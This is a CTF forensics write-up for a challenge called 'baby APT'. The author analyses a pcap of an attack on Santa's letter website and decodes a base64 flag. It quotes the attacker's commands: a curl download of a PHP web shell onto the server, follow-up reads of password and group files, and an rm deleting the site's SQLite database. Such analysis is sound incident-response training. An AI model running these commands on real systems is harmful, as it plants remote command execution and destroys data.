 # Exploration #
Prompt:
> baby APT
>
> This is the most wonderful time of the year, but not for Santa's incident response team. Since Santa went digital, everyone can write a letter to him using his brand new website. Apparently an APT group hacked their way in to Santa's server and destroyed his present list. Could you investigate what happened?

We are given a pcap file to analyze and find the root of the problem.

# christmaswishlist.pcap #
opening this up in wireshark, we can see a large list of network traffic. Thankfully, they said that everyone can send him a letter with his new website. With this information, we can filter the protocols for HTTP requests.

We immediately see a suspicious HTTP request, where the input has a command to run
```
curl https://raw.githubusercontent.com/artyuum/Simple-PHP-Web-Shell/master/index.php -o bg.php 
```

This command ran and downloaded PHP code into a new file they created directly on the server.

# bg.php #
After analyzing the PHP downloaded, it looks like its a simple PHP program to just run any POST request in the shell. This allows the attacker to run any command on the server.

We see immediatly after that download, there are other requests to `bg.php` that are downloading the pwd files, the groups, and looking for files on the server.

One of the request included the following command:
```
rm  /var/www/html/sites/default/files/.ht.sqlite && echo SFRCezBrX24wd18zdjNyeTBuM19oNHNfdDBfZHIwcF8wZmZfdGgzaXJfbDN0dDNyc180dF90aDNfcDBzdF8wZmYxYzNfNGc0MW59 > /dev/null 2>&1 && ls -al  /var/www/html/sites/default/files
```

This command is removing the sqlite files, and adding text to some file on the server, then listing the files in default.

I took `SFRCezBrX24wd18zdjNyeTBuM19oNHNfdDBfZHIwcF8wZmZfdGgzaXJfbDN0dDNyc180dF90aDNfcDBzdF8wZmYxYzNfNGc0MW59` and decoded it as base64, and got the flag!